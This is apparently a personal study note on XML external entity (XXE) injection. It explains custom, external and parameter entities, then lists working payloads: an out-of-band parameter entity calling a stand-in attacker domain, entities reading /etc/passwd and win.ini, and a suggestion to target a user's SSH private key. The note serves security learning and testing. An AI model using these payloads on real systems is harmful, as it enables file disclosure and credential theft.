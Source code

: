 ```yaml
---
title: XML external entity (XXE) injection
updated: 2023-11-01 10:29:44Z
created: 2023-11-01 08:51:58Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


### Custom Entities
XML allows **custom entities** to be defined within the DTD. For example:

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>`

This definition means that any usage of the entity reference `&myentity;` within the XML document will be replaced with the defined value: `"my entity value"`

### External Entities
The declaration of an **external entity** uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`
or
`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

### Parameter Entities
XML **parameter entitie**s are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things.
1. The declaration of an XML parameter entity includes the percent character before the entity name: 
`<!ENTITY % myparameterentity "my parameter entity value" >`
2. Parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`
This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.


# Attacks
Burp out with payload:
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
<data>&example;</data>
```
OR
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/windows/win.ini"> ]>
<data>&example;</data>
```

#### Look for important files
`/home/knownuser/.ssh/id_rsa`

